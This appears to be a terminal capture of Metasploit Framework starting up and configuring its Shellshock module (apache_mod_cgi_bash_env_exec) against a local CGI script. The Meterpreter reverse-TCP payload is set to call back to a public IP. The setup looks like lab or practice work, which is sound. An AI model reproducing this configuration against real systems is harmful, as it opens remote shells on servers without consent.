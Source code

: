
 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.


Would you like to use and setup a new database (recommended)? no

 ** Metasploit Framework Initial Setup Complete **

                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.2.9-dev-                          ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 864 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can pivot connections over sessions 
started with the ssh_login modules

[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
RHOSTS => http://127.0.0.1:8081/cgi-bin/log-visitor.sh
LHOST => 3.25.173.38
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > 
